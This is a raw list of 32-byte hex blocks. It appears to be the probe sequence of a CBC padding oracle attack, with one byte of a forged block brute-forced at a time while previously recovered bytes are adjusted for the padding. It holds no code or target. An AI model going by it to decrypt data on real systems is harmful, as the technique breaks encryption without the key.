0000000000000000002781939608fc1700000000000000000000000000000000
0000000000000000002681939608fc1700000000000000000000000000000000
0000000000000000002581939608fc1700000000000000000000000000000000
0000000000000000002481939608fc1700000000000000000000000000000000
0000000000000000002381939608fc1700000000000000000000000000000000
0000000000000000002281939608fc1700000000000000000000000000000000
0000000000000000002181939608fc1700000000000000000000000000000000
0000000000000000002081939608fc1700000000000000000000000000000000
0000000000000000001f81939608fc1700000000000000000000000000000000
0000000000000000001e81939608fc1700000000000000000000000000000000
0000000000000000001d81939608fc1700000000000000000000000000000000
0000000000000000001c81939608fc1700000000000000000000000000000000
0000000000000000001b81939608fc1700000000000000000000000000000000
0000000000000000001a81939608fc1700000000000000000000000000000000
0000000000000000001981939608fc1700000000000000000000000000000000
0000000000000000001881939608fc1700000000000000000000000000000000
0000000000000000001781939608fc1700000000000000000000000000000000
0000000000000000001681939608fc1700000000000000000000000000000000
0000000000000000ff198e9c9907f31800000000000000000000000000000000
0000000000000000fe198e9c9907f31800000000000000000000000000000000
0000000000000000fd198e9c9907f31800000000000000000000000000000000
0000000000000000fc198e9c9907f31800000000000000000000000000000000
0000000000000000fb198e9c9907f31800000000000000000000000000000000
0000000000000000fa198e9c9907f31800000000000000000000000000000000
0000000000000000f9198e9c9907f31800000000000000000000000000000000
0000000000000000f8198e9c9907f31800000000000000000000000000000000
0000000000000000f7198e9c9907f31800000000000000000000000000000000
0000000000000000f6198e9c9907f31800000000000000000000000000000000
0000000000000000f5198e9c9907f31800000000000000000000000000000000
0000000000000000f4198e9c9907f31800000000000000000000000000000000
0000000000000000f3198e9c9907f31800000000000000000000000000000000
0000000000000000f2198e9c9907f31800000000000000000000000000000000
0000000000000000f1198e9c9907f31800000000000000000000000000000000
0000000000000000f0198e9c9907f31800000000000000000000000000000000
0000000000000000ef198e9c9907f31800000000000000000000000000000000
0000000000000000ee198e9c9907f31800000000000000000000000000000000
0000000000000000ed198e9c9907f31800000000000000000000000000000000
0000000000000000ec198e9c9907f31800000000000000000000000000000000
0000000000000000eb198e9c9907f31800000000000000000000000000000000
0000000000000000ea198e9c9907f31800000000000000000000000000000000
0000000000000000e9198e9c9907f31800000000000000000000000000000000
0000000000000000e8198e9c9907f31800000000000000000000000000000000
0000000000000000e7198e9c9907f31800000000000000000000000000000000
0000000000000000e6198e9c9907f31800000000000000000000000000000000
0000000000000000e5198e9c9907f31800000000000000000000000000000000
0000000000000000e4198e9c9907f31800000000000000000000000000000000
0000000000000000e3198e9c9907f31800000000000000000000000000000000
0000000000000000e2198e9c9907f31800000000000000000000000000000000
0000000000000000e1198e9c9907f31800000000000000000000000000000000
0000000000000000e0198e9c9907f31800000000000000000000000000000000
0000000000000000df198e9c9907f31800000000000000000000000000000000
0000000000000000de198e9c9907f31800000000000000000000000000000000
0000000000000000dd198e9c9907f31800000000000000000000000000000000
0000000000000000dc198e9c9907f31800000000000000000000000000000000
0000000000000000db198e9c9907f31800000000000000000000000000000000
0000000000000000da198e9c9907f31800000000000000000000000000000000
0000000000000000d9198e9c9907f31800000000000000000000000000000000
0000000000000000d8198e9c9907f31800000000000000000000000000000000
0000000000000000d7198e9c9907f31800000000000000000000000000000000
0000000000000000d6198e9c9907f31800000000000000000000000000000000
0000000000000000d5198e9c9907f31800000000000000000000000000000000
0000000000000000d4198e9c9907f31800000000000000000000000000000000
0000000000000000d3198e9c9907f31800000000000000000000000000000000
0000000000000000d2198e9c9907f31800000000000000000000000000000000
0000000000000000d1198e9c9907f31800000000000000000000000000000000
0000000000000000d0198e9c9907f31800000000000000000000000000000000
0000000000000000cf198e9c9907f31800000000000000000000000000000000
0000000000000000ce198e9c9907f31800000000000000000000000000000000
0000000000000000cd198e9c9907f31800000000000000000000000000000000
0000000000000000cc198e9c9907f31800000000000000000000000000000000
0000000000000000cb198e9c9907f31800000000000000000000000000000000
0000000000000000ca198e9c9907f31800000000000000000000000000000000
0000000000000000c9198e9c9907f31800000000000000000000000000000000
00000000000000ffc8188f9d9806f21900000000000000000000000000000000
00000000000000fec8188f9d9806f21900000000000000000000000000000000
00000000000000fdc8188f9d9806f21900000000000000000000000000000000
00000000000000fcc8188f9d9806f21900000000000000000000000000000000
00000000000000fbc8188f9d9806f21900000000000000000000000000000000
00000000000000fac8188f9d9806f21900000000000000000000000000000000
00000000000000f9c8188f9d9806f21900000000000000000000000000000000
00000000000000f8c8188f9d9806f21900000000000000000000000000000000
00000000000000f7c8188f9d9806f21900000000000000000000000000000000
00000000000000f6c8188f9d9806f21900000000000000000000000000000000
00000000000000f5c8188f9d9806f21900000000000000000000000000000000
00000000000000f4c8188f9d9806f21900000000000000000000000000000000
00000000000000f3c8188f9d9806f21900000000000000000000000000000000
00000000000000f2c8188f9d9806f21900000000000000000000000000000000
00000000000000f1c8188f9d9806f21900000000000000000000000000000000
00000000000000f0c8188f9d9806f21900000000000000000000000000000000
00000000000000efc8188f9d9806f21900000000000000000000000000000000
00000000000000eec8188f9d9806f21900000000000000000000000000000000
00000000000000edc8188f9d9806f21900000000000000000000000000000000
00000000000000ecc8188f9d9806f21900000000000000000000000000000000
00000000000000ebc8188f9d9806f21900000000000000000000000000000000
00000000000000eac8188f9d9806f21900000000000000000000000000000000
00000000000000e9c8188f9d9806f21900000000000000000000000000000000
00000000000000e8c8188f9d9806f21900000000000000000000000000000000
00000000000000e7c8188f9d9806f21900000000000000000000000000000000
00000000000000e6c8188f9d9806f21900000000000000000000000000000000
00000000000000e5c8188f9d9806f21900000000000000000000000000000000
00000000000000e4c8188f9d9806f21900000000000000000000000000000000
00000000000000e3c8188f9d9806f21900000000000000000000000000000000
00000000000000e2c8188f9d9806f21900000000000000000000000000000000
00000000000000e1c8188f9d9806f21900000000000000000000000000000000
000000000000ffe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000fee2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000fde2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000fce2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000fbe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000fae2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f9e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f8e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f7e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f6e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f5e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f4e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f3e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f2e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f1e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000f0e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000efe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000eee2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000ede2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000ece2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000ebe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000eae2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e9e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e8e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e7e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e6e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e5e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e4e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e3e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e2e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e1e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000e0e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000dfe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000dee2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000dde2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000dce2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000dbe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000dae2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d9e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d8e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d7e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d6e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d5e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d4e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d3e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d2e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d1e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000d0e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000cfe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000cee2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000cde2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000cce2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000cbe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000cae2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c9e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c8e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c7e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c6e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c5e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c4e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c3e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c2e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c1e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000c0e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000bfe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000bee2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000bde2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000bce2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000bbe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000bae2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b9e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b8e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b7e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b6e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b5e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b4e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b3e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b2e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b1e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000b0e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000afe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000aee2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000ade2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000ace2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000abe2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000aae2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a9e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a8e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a7e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a6e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a5e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a4e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a3e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a2e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a1e2cb1b8c9e9b05f11a00000000000000000000000000000000
000000000000a0e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000009fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000009ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000009de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000009ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000009be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000009ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000099e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000098e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000097e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000096e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000095e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000094e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000093e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000092e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000091e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000090e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000008fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000008ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000008de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000008ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000008be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000008ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000089e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000088e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000087e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000086e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000085e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000084e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000083e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000082e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000081e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000080e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000007fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000007ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000007de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000007ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000007be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000007ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000079e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000078e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000077e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000076e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000075e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000074e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000073e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000072e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000071e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000070e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000006fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000006ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000006de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000006ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000006be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000006ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000069e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000068e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000067e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000066e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000065e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000064e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000063e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000062e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000061e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000060e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000005fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000005ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000005de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000005ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000005be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000005ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000059e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000058e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000057e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000056e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000055e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000054e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000053e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000052e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000051e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000050e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000004fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000004ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000004de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000004ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000004be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000004ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000049e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000048e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000047e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000046e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000045e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000044e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000043e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000042e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000041e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000040e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000003fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000003ee2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000003de2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000003ce2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000003be2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000003ae2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000039e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000038e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000037e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000036e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000035e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000034e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000033e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000032e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000031e2cb1b8c9e9b05f11a00000000000000000000000000000000
00000000000030e2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000002fe2cb1b8c9e9b05f11a00000000000000000000000000000000
0000000000ff2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000fe2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000fd2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000fc2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000fb2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000fa2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f92ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f82ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f72ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f62ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f52ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f42ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f32ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f22ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f12ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000f02ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ef2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ee2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ed2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ec2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000eb2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ea2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e92ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e82ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e72ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e62ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e52ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e42ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e32ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e22ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e12ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000e02ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000df2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000de2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000dd2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000dc2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000db2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000da2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d92ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d82ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d72ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d62ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d52ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d42ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d32ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d22ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d12ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000d02ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000cf2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ce2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000cd2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000cc2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000cb2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ca2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c92ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c82ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c72ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c62ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c52ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c42ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c32ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c22ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c12ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000c02ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000bf2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000be2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000bd2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000bc2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000bb2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ba2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b92ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b82ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b72ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b62ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b52ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b42ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b32ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b22ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b12ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000b02ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000af2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ae2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ad2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ac2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000ab2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000aa2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a92ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a82ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a72ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a62ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a52ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a42ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a32ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a22ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a12ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000a02ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000009f2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000009e2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000009d2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000009c2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000009b2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000009a2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000992ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000982ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000972ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000962ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000952ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000942ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000932ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000922ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000912ee3ca1a8d9f9a04f01b00000000000000000000000000000000
0000000000902ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000008f2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000008e2ee3ca1a8d9f9a04f01b00000000000000000000000000000000
00000000ff8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000fe8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000fd8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000fc8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000fb8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000fa8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f98929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f88929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f78929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f68929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f58929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f48929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f38929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f28929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f18929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000f08929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ef8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ee8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ed8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ec8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000eb8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000ea8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e98929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e88929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e78929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e68929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e58929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e48929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e38929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e28929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e18929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000e08929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000df8929e4cd1d8a989d03f71c00000000000000000000000000000000
00000000de8929e4cd1d8a989d03f71c00000000000000000000000000000000
